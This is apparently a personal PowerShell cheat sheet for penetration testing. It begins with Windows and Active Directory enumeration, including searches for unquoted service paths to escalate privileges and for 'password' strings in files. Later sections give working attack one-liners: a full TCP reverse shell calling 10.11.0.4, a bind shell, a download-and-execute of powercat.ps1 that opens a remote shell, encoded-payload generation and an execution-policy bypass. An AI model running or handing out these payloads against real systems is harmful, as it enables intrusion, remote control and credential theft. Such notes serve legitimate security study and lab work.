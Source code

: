 ### Get installed software
Get-WmiObject -Class Win32_Product

### Get Antivirus Product Status
Get-CimInstance -Namespace root/SecurityCenter2 -ClassName AntivirusProduct

### In table format, display processes and include the CommandLine, ProcessName, and SessionID. Filter to show SessionID of 2 and ProcessName of "svchost.exe" only. Sort the results alphabetically by CommandLine.
gps | Select-Object -Property ProcessName,SessionID | Sort-Object -Property ProcessName -Descending | Where-Object SessionID -EQ 2 | Where-Object ProcessName -EQ svchost.exe | Format-Table

### Services with unquoted executable paths that start automatically can lead to escalating privileges. How many services fit that description on this machine?
Get-WmiObject -class Win32_Service -Property StartMode,PathName | Where {$_.StartMode -EQ "Auto" -and $_.PathName -notlike '"*'} | select StartMode,PathName

### Get current logged in user
query user /server:$server
Get-WmiObject -Class win32_computersystem
(Get-CimInstance -ClassName Win32_ComputerSystem).Username
(Get-WMIObject -ClassName Win32_ComputerSystem).Username


### Get file under path using hash value
Get-FileHash -Path C:\Windows\System32\* -Algorithm MD5 | findstr /i "6CECC33A62E935F5E8665B9597479A36"

### Find string in txt files under path by "password" string
Select-String -Path C:\Windows\System32\*.txt -Pattern 'password'

### Powershell to get shell from 192.168.79.79 to 192.168.79.80(username:offensive)
192.168.79.79:Enable-PSRemoting,Set-Item wsman:\localhost\client\trustedhosts 192.168.79.80,Enter-PSSession -ComputerName 192.168.79.80 -Credential offensive

### Domain
###### Domain Users and Groups
Get-ADUser Jim  
Get-ADUSer -filter *  
Get-ADUser Morgan -Properties *(get full info of aduser)  
Get-ADComputer APPSRV01  
Get-ADGroup -filter 'GroupScope -eq Global/Domain Local/Universal'  
Get-ADGroup -filter * -properties * |select SAMAccountName, Description|Export-Csv adGroupList.csv  

###### Enumerate Domain group member
Get-ADGroupMember ThirdGroup -recursive 

### Get windows firewall rules
Get-NetFirewallRule

### Retrieve domain user full info
Get-ADUser -Identity Susan -Properties "*"

### Retrieve domain computer full info
Get-AdComputer -Identity APPSRV01 -Properties *

### display all loaded functions
dir function:

### display one specific module location
dir (Get-Module -ListAvailable FlagModule).ModuleBase

### download file
>powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\offsec\Desktop\wget.exe')"
powershell -nop -Exec Bypass -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\offsec\Desktop\wget.exe')"  

### reverse shell
```
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.11.0.4',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
sudo nc -lnvp 443
```
```
IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1");powercat -c 192.168.119.3 -p 4444 -e powershell 
```
### bind shell
```
powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()"
nc -nv 10.11.0.22 443
```
### load powercat, bindshell, reverse shell, encrypted payloads
```
  -ge             Generate Encoded Payload. Does the same as -g, but returns a string which
                  can be executed in this way: powershell -E <encoded string>
```
```
Import-Module .\powercat.ps1
powercat -l -p 443 -e cmd.exe
powercat -c 10.11.0.4 -p 443 -e cmd.exe
powercat -c 10.11.0.4 -p 443 -e cmd.exe -ge > encodedreverseshell.ps1
powershell.exe -E en_payload
```
### Allow unsigned scripts execute
```
powershell -ExecutionPolicy Bypass -File admin_login.ps1
```

